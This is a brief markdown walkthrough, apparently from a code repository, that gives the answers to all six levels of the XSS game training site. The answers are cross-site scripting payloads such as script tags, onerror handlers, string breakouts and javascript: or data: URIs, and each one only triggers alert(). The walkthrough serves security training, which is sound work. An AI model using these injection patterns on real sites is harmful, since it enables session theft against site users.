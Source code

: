 # https://xss-game.appspot.com/

## Level 1
Insert `<script>alert();</script>` inside the input text box.

## Level 2
Insert `<img src="asdgf.png" onerror="javascript:alert();" />` inside the input text box.

## Level 3
Insert `'onerror="alert();"` into the URL bar after `../frame#` in place of `1` then click "Go".

## Level 4
Insert `1}}'); alert();('{{` inside the input text box.

## Level 5
Click "Sign up", then insert `javascript:alert();` in the URL bar after `next=` in place of `confirm`, then click "Go", then click "Next".

## Level 6
Insert `data:text/plain,alert();` into the URL bar after `../frame#` in place of `/static/gadget.js` then click "Go".

